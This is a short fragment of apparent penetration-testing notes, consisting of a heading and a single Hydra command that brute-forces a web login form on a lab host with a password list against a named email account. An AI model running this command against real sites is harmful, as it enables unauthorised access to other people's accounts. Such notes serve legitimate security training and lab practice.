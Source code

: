 ## Hydra HTTP Brute Force
```
hydra -l janis@mail.com -P ./passwords.txt site.vuln.lab http-post-form "/Account/Login/:Email=^USER^&Password=^PASS^:F=Invalid"
```